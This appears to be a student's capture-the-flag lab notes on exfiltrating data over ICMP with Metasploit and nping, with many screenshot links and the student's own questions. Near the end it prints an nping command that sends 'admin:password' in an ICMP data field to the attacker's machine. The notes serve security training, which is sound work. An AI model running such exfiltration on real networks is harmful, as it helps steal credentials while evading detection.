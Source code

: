 `thm@jump-box$ ssh thm@icmp.thm.com`

![](/assets/img/Pasted image 20230109233130.png)

![](/assets/img/Pasted image 20230109235657.png)

##### 4. First, we will send the `BOF` trigger from the ICMP machine to `Attacker's machine` so that the Metasploit framework starts `writing to the disk`:

	- So basically, we are assuming that we will receive data from the 'icmp.thm.com' and write those on disk?
	- Remember to listen with Wireshark on the attacker's machine too!

![](/assets/img/Pasted image 20230109233447.png)

<u>Wireshark screenshot from the attacker's machine</u>:
![](/assets/img/Pasted image 20230109233651.png)

![](/assets/img/Pasted image 20230109235808.png)

	- This is the ping request from the 'icmp.thm.com' machine!

- We sent one ICMP packet using the `nping` command with **--data-string** argument.
- We specify the trigger value with the file name "`BOFfile.txt`".

		- How does this trigger exactly work?

- Now, check the AttackBox terminal. If everything is set correctly, the Metasploit framework should identify the trigger value and wait for the data to be written on disk:
![](/assets/img/Pasted image 20230109233934.png)

	- Since our trigger is the string "BOF", this exploit extracts any file/string/data PLACED AFTER the trigger which in this case is "file.txt".
	- Any string AFTER the trigger will be the name of the file to be created to contain the rest of the data that will be exfiltrated using ICMP data section.

##### 5. Sending the required data and the end of file trigger value from the ICMP machine:

- `First` packet:
`thm@icmp-host:~# sudo nping --icmp -c 1 10.10.178.55 --data-string "admin:password"`

![](/assets/img/Pasted image 20230110000046.png)

<u>Request</u>:
![](/assets/img/Pasted image 20230110000058.png)

<u>Reply</u>:
![](/assets/img/Pasted image 20230110000114.png)

<u>Confirmation</u>:
![](/assets/img/Pasted image 20230110000144.png)
